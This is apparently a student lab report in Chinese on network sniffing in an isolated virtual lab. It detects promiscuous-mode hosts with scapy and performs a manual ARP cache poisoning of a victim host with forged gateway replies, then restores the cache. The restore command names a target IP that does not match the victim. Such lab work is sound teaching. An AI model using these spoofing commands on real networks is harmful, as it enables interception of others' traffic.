

# 实验四 网络监听

## 实验环境

##### 网络拓扑


##### 网关网卡设置


##### 网络配置


| 节点               | ip地址         | MAC地址 / 网卡           |
| ------------------ | -------------- | ----------------- |
| Debian-Gateway | `172.16.111.1`  | `08:00:27:76:49:aa / enp0s9` |
| Attacker-Kali | `172.16.111.107` | `08:00:27:e1:b3:74 / eth0` |
| Victim-Kali-1 | `172.16.111.124` | `08:00:27:22:46:4f / eth0` |


## 实验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```shell
# 安装 python3
$ sudo apt update && sudo apt install python3 python3-pip
# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
$ pip3 install scapy[complete]
```


## 实验一：检测局域网中的异常终端

-   ```shell
    # 在受害者主机上检查网卡的「混杂模式」是否启用
    # 注意此时输出结果中并没有出现 PROMISC 字符串
    $ ip link show eth0
    ```

    

-   ```shell
    # 在攻击者主机上开启 scapy，需要提升权限
    $ sudo scapy
    ```

    

-   ```shell
    # 在 scapy 的交互式终端输入以下代码回车执行 受害者主机 ip
    $ pkt = promiscping("172.16.111.124")
    ```

    

-   ```shell
    # 回到受害者主机上开启网卡的『混杂模式』
    $ sudo ip link set eth0 promisc on
    # 此时会发现输出结果中出现了 PROMISC
    $ ip link show eth0
    ```

    

-   ```shell
    # 回到攻击者主机上的 scapy 交互式终端继续执行命令
    # 观察两次命令的输出结果差异
    $ pkt = promiscping("172.16.111.124")
    ```

    

-   ```shell
    # 在受害者主机上
    # 手动关闭该网卡的「混杂模式」
    $ sudo ip link set eth0 promisc off
    ```

    

- 综上，受害者主机未开启混杂模式时，攻击者使用 promiscping 进行发包探测，结果没有得到 arp 响应。当受害者主机开启了混杂模式后，攻击者使用 promiscping 进行发包探测，可以得到 arp 响应。

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

-   ```shell
    # 获取当前局域网的网关 MAC 地址
    # 构造一个 ARP 请求
    $ arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

    # 查看构造好的 ARP 请求报文详情
    $ arpbroadcast.show()
    ```

    

-   ```shell
    # 发送这个 ARP 广播请求
    $ recved = srp(arpbroadcast, timeout=2)

    # 网关 MAC 地址如下
    $ gw_mac = recved[0][0][1].hwsrc
    ```

    

-   ```shell
    # 伪造网关的 ARP 响应包
    # 准备发送给受害者主机 172.16.111.124
    # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
    # 注意需要在外面加封一层 Ethernet 帧头
    $ arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.124", hwdst="08:00:27:e1:b3:74")

    # 发送上述伪造的 ARP 响应数据包到受害者主机
    $ sendp(arpspoofed)
    ```

    

-    此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

-   ```shell
    $ ip neigh
    ```

    


### 恢复受害者主机的 ARP 缓存记录


-   ```shell
    ## 伪装网关给受害者发送 ARP 响应
    $ restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:76:49:aa", pdst="192.168.56.124", hwdst="08:00:27:22:46:4f")
    $ sendp(restorepkt1, count=100, inter=0.2)
    ```

    

- 此时在受害者主机上准备“刷新”网关 ARP 记录。

-   ```shell
    ## 在受害者主机上尝试 ping 网关
    $ ping 172.16.111.1
    ## 静候几秒 ARP 缓存刷新成功，退出 ping
    ## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
    $ ip neigh
    ```

    

## 遇到的问题及解决方法

- 受害者主机 kali 有网关的 STALE 记录，手动毒化失败
    - **伪造的网关ARP相应包发不出去**
    *解决方法： 在构造ARP相应包时添加数据链路层Ether()*

    ```shell
    # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
    # 注意需要在外面加封一层 Ethernet 帧头
    $ arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.124", hwdst="08:00:27:e1:b3:74")
    ```